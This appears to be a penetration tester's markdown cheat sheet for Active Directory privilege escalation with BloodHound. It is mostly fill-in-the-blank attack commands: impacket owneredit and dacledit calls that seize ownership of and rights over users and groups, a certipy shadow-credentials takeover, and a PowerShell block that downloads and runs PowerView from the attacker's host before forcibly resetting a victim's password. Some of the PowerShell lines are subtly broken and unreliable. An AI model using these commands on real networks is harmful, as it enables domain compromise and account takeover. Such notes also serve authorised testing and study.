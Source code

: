 ## Bloodhound Setup
https://www.kali.org/tools/bloodhound/

```
sudo neo4j start
# go to http://localhost:7474 an change default credentials
bloodhound
# authenticate with the new credentials
```
 ## Data collection
### SharpHound
Only on Windows

### BloodHound.py
https://www.kali.org/tools/bloodhound.py/

```
# -c All to collect everything
bloodhound-python -d <domain> -u <user> -p <password> -ns <DC IP> -c All
```
### Import data
1. In BloodHound GUI → click Upload Data (usually top-right, cloud-upload icon).
2. Select the directory or files → pick all your .json files from BloodHound.py.
3. BloodHound will parse and import the data into Neo4j.
   
 ## Running queries
1. Go through all owned accounts and mark them as owned (RMB -> Mark as owned)
2. Go through all interesting accounts and mark as High value
3. Go through pre-built queries, Click on nodes etc.

CLICK RMP ON EDGE -> Help!!!

It will show Abuse commands!!!

## Escalation Paths

### WriteOwner
[User1] --WriteOwner-> [User2/Group2]

https://www.hackingarticles.in/abusing-ad-dacl-writeowner/
```
# User
impacket-owneredit -action write -new-owner '<User1>' -target-dn '<User2 DN copy from BH>' '<domain>'/'<User1>':'<U1 Pass>' -dc-ip <IP>
impacket-dacledit -action write -rights 'FullControl' -principal '<User1>' -target-dn '<User2 DN copy from BH>' '<domain>'/'<User1>':'<U1 Pass>' -dc-ip <IP>
# Group
impacket-owneredit -action write -new-owner '<User1>' -target-dn '<Group2 DN copy from BH>' '<domain>'/'<User1>':'<U1 Pass>' -dc-ip <IP>
impacket-dacledit -action write -rights 'WriteMembers' -principal '<User1>' -target-dn '<Group2 DN copy from BH>' '<domain>'/'<User1>':'<U1 Pass>' -dc-ip <IP>
```
Now either add own account to target group, or reset target account password 
(Reference this link: https://www.hackingarticles.in/abusing-ad-dacl-writeowner/)

In the particalar example the target user was Cert Authority user, so I could do this:

http://book.hacktricks.wiki/en/windows-hardening/active-directory-methodology/ad-certificates/domain-escalation.html#vulnerable-certificate-template-access-control---esc4
```
certipy-ad shadow auto -u '<user1>@<domain>' -p "<U1 pass>" -account '<User2>' -dc-ip '<IP>' 
```
### ForceChangePassword
Inside *Evil-WinRM* session
```
IEX (New-ObjectNet.WebClient).DownloadString('http://<KALI IP>:4000/PowerView.ps1')
$SecPassword = ConvertTo-SecureString '<User1 Pass>' -AsPlainText -Force
$Cred = New-Object System.Management.Automation.PSCredential ('<Domain>\<User1>', SecPassword)
$UserPassword = ConvertToSecureString 'qweQWE123!@#!' -AsPlainText -Force
Set-DomainUserPassword -Identity <User2> -AccountPassword $UserPassword -Credential $Cred
```
